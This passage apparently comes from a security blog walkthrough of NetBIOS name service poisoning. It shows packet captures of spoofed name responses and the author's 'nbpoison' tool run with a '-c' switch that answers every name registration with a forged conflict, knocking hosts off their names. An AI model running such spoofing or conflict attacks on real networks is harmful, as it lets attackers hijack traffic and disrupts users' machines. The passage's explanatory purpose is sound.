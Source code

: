 Notice that it resolved to my chosen IP!

Here's what the packet capture looks like:

```
1	0.000008	192.168.1.41	192.168.1.255	NBNS	Name query NB DEMO<00>
2	0.000012	192.168.1.2	192.168.1.41	NBNS	Name query response NB 1.2.3.4
```

Nothing complicated there -- It asks who has DEMO, and I respond saying, "1.2.3.4 does".

Where it gets a little more complicated is when you race another machine. Recall that my boxes are called TEST1 and TEST2. What happens when TEST2 tries to ping TEST1?

```
6	21.120641	192.168.1.42	192.168.1.255	NBNS	Name query NB TEST1<00>
8	21.126873	192.168.1.41	192.168.1.42	NBNS	Name query response NB 192.168.1.41
11	21.137469	192.168.1.2	192.168.1.42	NBNS	Name query response NB 1.2.3.4
```

In this case, TEST2 asks where to find TEST1, and gets two responses: one from TEST1, and one from me. Unfortunately, mine was second, so TEST2 gets the proper address and connects to the proper host.

Obviously, in an attack scenario, this isn't ideal. So, what can we do?

Recall a long time ago (at least, it feels like a long time ago when I'm typing...), I talked about sending a 'Conflict' packet to tell a system its name is already in use. So why don't we send a conflict ourselves?

To do this, we run nbpoison with the '-c' (or 'conflict') switch. This tells it to actively send out conflicts (I left it off by default because it can seriously break things). When that's enabled, it'll respond to every registration with a 'conflict'. Observe:

```
$ sudo ./nbpoison -s 1.2.3.4 -c
QUESTION name registration: (NB:TEST1          <00|workstation>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1          <00|workstation>): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1           <20|server>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1          <20|server>): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1          <03|messenger>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1          <03|messenger>): IP: 192.168.1.41, TTL: 300000s
```

And the first couple packets:

```
8	27.436859	192.168.1.41	192.168.1.255	NBNS	Registration NB TEST1<00>
11	27.443466	192.168.1.2	192.168.1.41	NBNS	Registration response, Name is owned by another node NB 1.2.3.4
13	27.788828	192.168.1.41	192.168.1.255	NBNS	Registration NB TEST1<20>
14	27.789014	192.168.1.2	192.168.1.41	NBNS	Registration response, Name is owned by another node NB 1.2.3.4
...
```
